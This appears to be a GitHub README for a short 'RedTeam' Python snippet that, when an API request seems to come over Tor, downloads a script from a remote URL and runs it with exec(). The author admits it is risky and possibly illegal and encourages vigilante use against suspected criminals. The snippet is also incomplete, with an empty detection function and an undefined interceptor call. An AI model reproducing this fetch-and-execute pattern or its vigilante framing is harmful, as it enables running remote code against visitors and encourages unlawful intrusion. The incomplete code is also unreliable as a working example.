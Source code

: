 # Feuerteufel Logic
###### RedTeam Script Examples (EDU) by Volkan Sah - simple codings for 'Offensive Security' (updated 5/2023)

A creative small Python script that intercepts API requests and, when accessed through the Tor network, loads and runs an external script from a specified URL to Fuck them!
However, keep in mind that this is a highly risky and potentially illegal activity. Use at your own risk and only against crime and child abuse!
## Sorry cant explane all or you know what can be!

## WARNING: READ CAREFULLY! !!! DANGER !!!
This Black Python script example is intended for use by security professionals and developers only. It is not intended for malicious purposes, and I cannot be held responsible for any misuse of this code. If you use this tool for illegal or unethical purposes, you alone will be held responsible for any consequences that may arise, including legal and ethical issues.

Please see [SherlocksHome](https://github.com/VolkanSah/SherlocksHome/) & [This](https://github.com/VolkanSah/playing-with-scapy-and-stem) to understand logic 😅

### Be aware that attempting to bypass security measures is likely illegal and unethical!

```python
import requests

def intercept_api_requests(request):
    if check_if_accessed_over_tor(request):
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")

def check_if_accessed_over_tor(request):
    # Implement your logic to detect if the request is coming from the Tor network
    # This might involve inspecting the request headers or analyzing network traffic

# Register the interceptor function to intercept API requests
register_interceptor(intercept_api_requests)
```

## issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)
